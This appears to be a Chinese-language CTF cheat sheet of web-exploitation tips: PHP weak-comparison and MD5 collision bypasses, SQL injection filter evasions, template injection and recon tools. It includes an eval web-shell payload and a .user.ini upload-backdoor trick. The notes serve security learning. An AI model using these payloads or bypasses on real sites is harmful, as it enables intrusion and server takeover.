








# Web

- php中弱类型比较`==`是先将两边转换为同种类型再进行比较

转换规则如下



```php
<?php
if(123 == "123ffff"){
    echo "相等";
}

//右边的123ffff会转换成123，输出相等
```


- php中strcmp函数，如果是用来比较字符串，如果传入了其他不能比较的数据（数组）则会返回NULL，如果后台采用了弱类型比较`==`，由于 PHP 比较中的一些固有弱点，NULL == 0 将返回 true，在一些情况下可以绕过，所以某些情况下可以把参数变成数组（id=1变成id[]=1）来进行绕过

- sql注入可以通过`()`绕过空格过滤，括号是来包含子查询的，任何可以计算出结果的语句都可以用括号围起来，而括号的两端，可以没有多余的空格

- file_get_content()获取文件内容，文件不存在时，可以通过伪协议”创建“文件

- php中md5强碰撞`md5($a)===md5($b)`使用全等号，可以使用三种方法绕过

  **数组**

  ?a[]=111&b[]=222，md5函数读取数组的时候无法解析，最终只会读入一个常量Array，所以md5相同

  **科学技术法**

  0e开头的数字会被解析成科学计数法0eXXX开头都会被解析成0，找到两个开头是0e的即可绕过

  **真实碰撞**

  如果传入的数据都变成了string，那就只能用真实的值，md5具有弱碰撞性，可以找到两个md5完全相等的数据

```sh
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

- php文件上传过滤了`<?`标签时可以用`<script language="php">@eval($_POST[cmd]);</script>`进行绕过
- php文件上传黑名单限制死了后缀时，可以上传`.user.ini`后门进行绕过，其中`auto_prepend_file`相当于`require()`函数，能够执行函数里面的php文件
- php7.1以上对属性类型不敏感，序列化时private属性会引入特殊字符`\00`，可能会被过滤或者截断，可以直接使用public进行序列化来绕过
- sql注入如果等号被过滤可以用like代替
- sql注入时，遇到知道其中一个**参数**，但是没有报错回显，且不知道位置时

```sql
select * from user where username = '$name'
```

可以在注入的第一个数据处写不存在的**参数**

例如，已知admin，正常回显如下，有一条结果



此时php后台检查参数user是否为admin，是则输出true，否则输出false，但没有报错回显，此时我们就不知道参数的位置

我们可以查询一个不存在的数据（如果是存在的数据，则会返回两条结果，可能会干扰显示，我们就无法判断）



然后sql注入union查询，挨个把admin在不同的位置尝试，直到输出true



示例：

https://blog.csdn.net/weixin_61333161/article/details/124535965





- sql注入过滤了关键字select无法绕过时，可以尝试堆叠注入，使用show列出数据库和表
- sql注入过滤了关键字select无法查询内容时可以用ALTER更新表名，从而利用源码中自带的select查询内容
- sql注入过滤了关键字select无法查询内容时可以用`HANDLER`语法进行绕过，handler是mysql特有的，步骤：

```sql
handler 表名 open;			#先打开表
handler 表名 read first;	#读取第一行
handler 表名 close;			#关闭表
```

- sql注入遇到布尔盲注，可以用三目运算符或者异或符号进行判断

```sql
if(1=1,1,2)		#true则返回1，false则返回2
0^1				#返回1，0异或任何数得本身
```

再通过substr进行逐位比较

- 模板注入，所有使用模板的程序都有可能出现这种漏洞可以在任何有输出点的地方测试

> 当前使用的一些框架，比如python的flask，php的tp，java的spring等一般都采用成熟的的MVC的模式，用户的输入先进入Controller控制器，然后根据请求类型和请求的指令发送给对应Model业务模型进行业务逻辑判断，数据库存取，最后把结果返回给View视图层，经过模板渲染展示给用户。





- escapeshellarg()和escapeshellcmd()函数

escapeshellarg可以将字符串增加一个单引号，并且转码任何存在的单引号（防止闭合绕过）

escapeshellcmd会对可能绕过命令执行函数的字符进行转义


- web遇到页面比较简单的，可以抓包试试，看看有没有传递特殊的参数
- web页面没有特殊的提示，可以用dirmap扫描
- git泄露可以用githack还原工程